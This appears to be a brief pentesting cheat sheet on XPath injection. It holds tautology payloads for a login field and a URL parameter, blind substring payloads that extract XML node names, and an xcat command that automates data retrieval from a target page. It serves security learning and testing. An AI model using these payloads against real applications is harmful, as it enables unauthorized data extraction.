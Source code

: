 Check the input if it can be injected 

    username = test' or '1'='1

**OR**

    http://xpath.site/getInfo.php?countryID=10 or '1'='1'


### Get the 1st child node name

    ' or substring(name(/*/*[1]), 1, 1)='a' 
    ' or substring(name(/*/*[1]), 2, 1)='a' 

<br/>

# XCAT

    xcat --method=GET http://xpath.site/getInfo.php countryID=1 countryID "Italy" run retrieve --output /root/Desktop/result.xml --format xml



- **countryID=1** is the query parameter.
- **countryID** is the parameter to be tested if we have more than one parameter.
- **Italy** is the value when the payload returns true.
- **run retrieve --output** to store the result in a file.
- **--format** is the format of the output file.